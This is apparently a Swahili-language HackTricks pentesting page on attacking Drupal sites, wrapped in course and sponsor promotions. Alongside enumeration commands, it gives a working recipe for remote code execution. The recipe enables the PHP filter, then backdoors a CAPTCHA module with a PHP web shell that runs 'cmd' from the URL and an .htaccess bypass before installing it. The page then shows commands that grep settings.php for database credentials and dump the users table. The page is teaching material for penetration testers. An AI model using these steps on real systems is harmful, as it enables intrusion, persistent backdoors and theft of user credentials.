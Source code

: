 # Drupal

<details>

<summary><strong>Jifunze AWS hacking kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA USAJILI**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

## Kugundua

* Angalia **meta**
```bash
curl https://www.drupal.org/ | grep 'content="Drupal'
```
* **Node**: Drupal **huiweka maudhui yake kwa kutumia nodes**. Node inaweza **kuwa na chochote** kama chapisho la blogu, kura, makala, n.k. URI za kurasa kawaida ni kwa mfano `/node/<nodeid>`.
```bash
curl drupal-site.com/node/1
```
## Uchambuzi

Drupal inasaidia **aina tatu za watumiaji** kwa chaguo-msingi:

1. **`Msimamizi`**: Mtumiaji huyu ana udhibiti kamili wa tovuti ya Drupal.
2. **`Mtumiaji Aliyethibitishwa`**: Watumiaji hawa wanaweza kuingia kwenye tovuti na kutekeleza shughuli kama vile kuongeza na kuhariri makala kulingana na ruhusa zao.
3. **`Mgeni`**: Wageni wote wa tovuti wanachukuliwa kama wageni. Kwa chaguo-msingi, watumiaji hawa wanaruhusiwa tu kusoma machapisho.

### Toleo

* Angalia `/CHANGELOG.txt`
```bash
curl -s http://drupal-site.local/CHANGELOG.txt | grep -m2 ""

Drupal 7.57, 2018-02-21
```
{% hint style="info" %}
Mipangilio mapya ya Drupal kwa chaguo-msingi huzuia ufikiaji wa faili za `CHANGELOG.txt` na `README.txt`.
{% endhint %}

### Uainishaji wa Jina la Mtumiaji

#### Jisajili

Katika _/user/register_ jaribu kuunda jina la mtumiaji na ikiwa jina tayari limechukuliwa utapewa taarifa:

![](<../../.gitbook/assets/image (328).png>)

#### Omba nenosiri jipya

Ikiwa unauliza nenosiri jipya kwa jina la mtumiaji lililopo:

![](<../../.gitbook/assets/image (903).png>)

Ikiwa unauliza nenosiri jipya kwa jina la mtumiaji ambalo halipo:

![](<../../.gitbook/assets/image (307).png>)

### Pata idadi ya watumiaji

Kwa kufikia _/user/\<number>_ unaweza kuona idadi ya watumiaji waliopo, kwa mfano hapa ni 2 kwani _/users/3_ inarudisha kosa la kutopatikana:

![](<../../.gitbook/assets/image (333).png>)

![](<../../.gitbook/assets/image (227) (1) (1) (1).png>)

### Kurasa Zilizofichwa

**Fanya Ufutaji `/node/$` ambapo `$` ni nambari** (kutoka 1 hadi 500 kwa mfano).\
Unaweza kupata **kurasa zilizofichwa** (jaribio, maendeleo) ambazo hazitajwi na injini za utaftaji.

#### Taarifa za Moduli Zilizosanikishwa
```bash
#From https://twitter.com/intigriti/status/1439192489093644292/photo/1
#Get info on installed modules
curl https://example.com/config/sync/core.extension.yml
curl https://example.com/core/core.services.yml

# Download content from files exposed in the previous step
curl https://example.com/config/sync/swiftmailer.transport.yml
```
### Kiotomatiki
```bash
droopescan scan drupal -u http://drupal-site.local
```
## RCE

### Kwa Moduli ya Kichujio cha PHP

{% hint style="warning" %}
Katika toleo za zamani za Drupal **(kabla ya toleo la 8)**, ilikuwa inawezekana kuingia kama admin na **kuwezesha moduli ya `PHP filter`**, ambayo "Inaruhusu nambari/snippets za PHP zieleweke."
{% endhint %}

Unahitaji **plugin ya php iwe imewekwa** (angalia kwa kufikia _/modules/php_ na ikirudi **403** basi, **ipo**, kama **haipatikani**, basi **plugin ya php haijawekwa**)

Nenda kwa _Modules_ -> (**Angalia**) _PHP Filter_ -> _Hifadhi mazingira_

![](<../../.gitbook/assets/image (247) (1).png>)

Kisha bofya _Ongeza maudhui_ -> Chagua _Ukurasa wa Msingi_ au _Makala_ -> Andika _mimba ya php kwenye mwili_ -> Chagua _Nambari ya PHP_ katika _Muundo wa Maandishi_ -> Chagua _Onesha_

![](<../../.gitbook/assets/image (338).png>)

Hatimaye tuifikie nodi iliyoanzishwa hivi karibuni:
```bash
curl http://drupal-site.local/node/3
```
### Sakinisha Moduli ya Kichujio cha PHP

Kuanzia toleo **8 na kuendelea, moduli ya** [**Kichujio cha PHP**](https://www.drupal.org/project/php/releases/8.x-1.1) **haitasakinishwa kwa chaguo-msingi**. Ili kutumia kazi hii, tutahitaji **kusakinisha moduli wenyewe**.

1. Pakua toleo jipya zaidi la moduli kutoka kwenye tovuti ya Drupal.
1. wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
2. Baada ya kupakua enda kwenye **`Utawala`** > **`Ripoti`** > **`Visasisho vinavyopatikana`**.
3. Bonyeza **`Tafuta`**`,` chagua faili kutoka kwenye saraka tuliyoidownload, kisha bonyeza **`Sakinisha`**.
4. Baada ya moduli kusakinishwa, tunaweza bonyeza **`Yaliyomo`** na **umba ukurasa mpya wa msingi**, kama tulivyofanya kwenye mfano wa Drupal 7. Tena, hakikisha **uchague `Msimbo wa PHP` kutoka kwenye menyu ya `Muundo wa Matini`**.

### Moduli yenye mlango wa nyuma

Moduli yenye mlango wa nyuma inaweza kuundwa kwa **kuongeza ganda kwenye moduli iliyopo**. Moduli zinaweza kupatikana kwenye tovuti ya drupal.org. Chagua moduli kama vile [CAPTCHA](https://www.drupal.org/project/captcha). Endelea chini na nakili kiungo cha tar.gz cha [hifadhi](https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz).

* Pakua hifadhi na fichua maudhui yake.
```
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```
* Unda **PHP web shell** na maudhui:
```php
<?php
system($_GET["cmd"]);
?>
```
* Kisha, tunahitaji kuunda faili ya **`.htaccess`** ili tupate ufikiaji wa folda. Hii ni muhimu kwani Drupal inakataa ufikiaji moja kwa moja wa folda ya **`/modules`**.
```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
* Mipangilio hapo juu itatumika kwa sheria za folda ya / tunapouliza faili katika /modules. Nakili faili zote mbili kwenye folda ya captcha na unda kiunzi.
```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```
* Kukadiria kwamba tuna **upatikanaji wa utawala** kwenye tovuti, bonyeza **`Manage`** na kisha **`Extend`** kwenye upau wa pembeni. Kisha, bonyeza kitufe cha **`+ Sakinisha moduli mpya`**, na tutapelekwa kwenye ukurasa wa usakinishaji, kama vile `http://drupal-site.local/admin/modules/install` Tafuta kwenye nyaraka ya Captcha iliyoharibiwa na bonyeza **`Sakinisha`**.
* Mara tu usakinishaji unapofanikiwa, tafuta **`/modules/captcha/shell.php`** kutekeleza amri.

## Baada ya Kuvamia

### Soma settings.php
```
find / -name settings.php -exec grep "drupal_hash_salt\|'database'\|'username'\|'password'\|'host'\|'port'\|'driver'\|'prefix'" {} \; 2>/dev/null
```
### Pindua watumiaji kutoka kwenye DB
```
mysql -u drupaluser --password='2r9u8hu23t532erew' -e 'use drupal; select * from users'
```
## Marejeo

* [https://academy.hackthebox.com/module/113/section/1209](https://academy.hackthebox.com/module/113/section/1209)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

<details>

<summary><strong>Jifunze AWS hacking kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA USAJILI**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
